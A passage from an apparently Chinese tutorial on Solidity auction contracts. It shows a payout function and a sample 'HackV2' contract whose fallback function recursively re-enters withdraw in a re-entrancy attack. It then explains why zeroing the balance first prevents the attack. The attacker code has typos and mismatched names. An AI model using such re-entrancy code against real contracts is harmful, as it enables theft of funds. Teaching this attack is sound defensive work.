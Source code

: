 ```solidity
	}
	return false;
}

event Pay2Beneficiary(address winner, uint amount);
// 结束拍卖，把最高的出价发送给受益人
function pay2Beneficiary() public returns (bool) {
	// 拍卖已截止
	require(now > auctionEnd);
	// 当前地址有钱可取
	require(bids[highestBidder] > 0);
	
	uint amount = bids[highestBidder];
	bids[highestBidder] = 0; // 注意这里先置为0然后再withdraw
	emit Pay2Beneficiary(highestBidder, bids[highestBidder]);
	
	if (!beneficiary.call.value(amount)()) {
		bids[highestBidder] = amount;
		return false;
	}
	return true;
}
```

但是还可以发动重入攻击 (Re-entrancy Attack)：

```solidity
contract HackV2 {
	uint stack = 0;
	function hack_id(address addr) payable public{
		SimpleAuction sa = SimpleAuction(addr);
		sa.bid.value(msg.value)();
	}
	
	function hack_withdraw(address addr) public payable{
		SimpleAuction(addr).whthdirw();
	}
	
	function() public payable {
        stack += 2;
        if (msg.sender.balance >= msg.value && msg.gas > 6000 && stack < 500) {
            SimpleAuctionV2(msg.sender).withdraw();
        }
	}
}
```

当contract的`withdraw`执行到`msg.sender.call.value(amount)()`时，就会触发上面的fallback函数，此时又会调用`withdraw`，陷入递归。

但是上面的写法没有问题，因为已经先把对应账户余额设置成0了

最好将call改成send或者transfer，因为gas fee比较少

---
